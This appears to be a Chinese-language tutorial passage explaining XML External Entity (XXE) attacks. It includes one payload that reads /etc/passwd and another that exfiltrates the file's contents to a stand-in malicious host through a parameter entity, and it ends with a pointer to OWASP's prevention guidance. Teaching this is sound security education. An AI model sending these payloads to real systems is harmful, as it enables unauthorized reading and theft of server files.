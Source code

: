 在 XXE 攻击中，攻击者滥用目标应用程序，使其在解析 XML 时包含外部实体。换句话说，应用程序期望接收一些 XML 数据，但并没有验证其接收到的内容；它只是解析任何它收到的东西。例如，假设前面提到的招聘板允许你通过 XML 注册并上传职位信息。

招聘板可能会向你提供其 DTD 文件，并假设你会提交一个符合要求的文件。你可以让`!ENTITY`去获取`"website.txt"`的内容，而不是获取`"/etc/passwd"`的内容。XML 将被解析，服务器文件*/etc/passwd*的内容将被包含在我们的内容中。（*/etc/passwd* 文件最初存储了 Linux 系统上的所有用户名和密码，虽然 Linux 系统现在将密码存储在*/etc/shadow*中，但仍然通常会读取*/etc/passwd*文件来证明漏洞的存在。）

你可能会提交类似这样的内容：

```
   <?xml version="1.0" encoding="UTF-8"?>

➊ <!DOCTYPE foo [

  ➋ <!ELEMENT foo ANY >

  ➌ <!ENTITY xxe SYSTEM "file:///etc/passwd" >

   ]

   >

➍ <foo>&xxe;</foo>
```

解析器接收到这段代码并识别出一个定义了`foo`文档类型的内部 DTD ➊。DTD 告诉解析器，`foo`可以包含任何可解析的数据 ➋；然后有一个实体`xxe`，当文档被解析时，它应该读取我的 */etc/passwd* 文件（*file://*表示指向*/etc/passwd*文件的完整 URI 路径）。解析器应该用这些文件内容替换`&xxe;`元素 ➌。然后，你使用 XML 定义了一个包含`&xxe;`的`<foo>`标签，这将打印出我的服务器信息 ➍。这就是为什么 XXE 如此危险的原因。

但是，等等，还有更多。如果应用程序没有打印响应，只是解析我的内容呢？如果敏感文件的内容从未返回给我，这个漏洞是否仍然有用？好吧，如果不是解析本地文件，你可以像这样联系一个恶意服务器：

```
 <?xml version="1.0" encoding="UTF-8"?>

 <!DOCTYPE foo [

   <!ELEMENT foo ANY >

➊ <!ENTITY % xxe SYSTEM "file:///etc/passwd" >

➋ <!ENTITY callhome SYSTEM ➌"www.malicious.com/?%xxe;">

   ]

 >

 <foo>&callhome;</foo>
```

现在，当 XML 文档被解析时，`callhome`实体 ➋ 会被替换为调用 *www.<恶意>.com/?%xxe* ➌ 的内容。但是 ➌ 需要对`%xxe`进行如 ➊ 所定义的评估。XML 解析器读取 */etc/passwd* 并将其作为参数附加到网址 *www.<恶意>.com/*，从而将文件内容作为 URL 参数 ➌ 发送。因为你控制了那个服务器，你会查看日志，果然，它会包含 */etc/passwd* 的内容。

你可能已经注意到，在`callhome`的 URL 中使用了`%`而不是`&`，`%xxe;` ➊。当实体应该在 DTD 定义中进行评估时，使用`%`；当实体在 XML 文档中评估时，使用`&`。

网站通过禁用外部实体解析来防止 XXE 漏洞。OWASP XML 外部实体防护备忘单（参见 *[`www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet`](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)*) 提供了如何为多种语言执行此操作的说明。
